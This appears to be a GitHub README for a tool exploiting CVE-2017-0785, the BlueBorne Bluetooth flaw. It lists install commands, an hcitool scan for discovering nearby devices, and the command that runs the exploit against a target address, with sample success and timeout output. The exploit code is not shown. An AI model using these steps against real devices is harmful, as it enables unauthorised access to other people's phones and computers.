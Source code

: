 # BlueBorn
CVE-2017-0785


## Archlinux installation

paru -S python-pybluez-git bluez-utils-compat pyhton3 python3-pip

sudo pip install pwn

## TUTORIALS

### Discovery

    hcitool scan
    Scanning ...
          XX:XX:XX:XX:XX:XX       Device 1
          XX:XX:XX:XX:XX:XX       Device 2

### Use the exploit

    python CVE-2017-0785.py TARGET=XX:XX:XX:XX:XX
    
    [V] Exploit: Done!


     python CVE-2017-0785.py TARGET=XX:XX:XX:XX:XX ==> FAILED EXEMPLE
  
    [◒] Exploit: Connecting to target
  
    Traceback (most recent call last):
  
    File "<string>", line 3, in connect
  
    _bluetooth.error: (110, 'Connection timed out')

    During handling of the above exception, another exception occurred:

    Traceback (most recent call last):
  
    File "/opt/Hacking-tools/Bluetooth/CVE-2017-0785/CVE-2017-0785.py", line 31, in <module>
    
      sock.connect((target, 1))
    
    File "<string>", line 5, in connect
  
    bluetooth.btcommon.BluetoothError: [Errno 110] Connection timed out
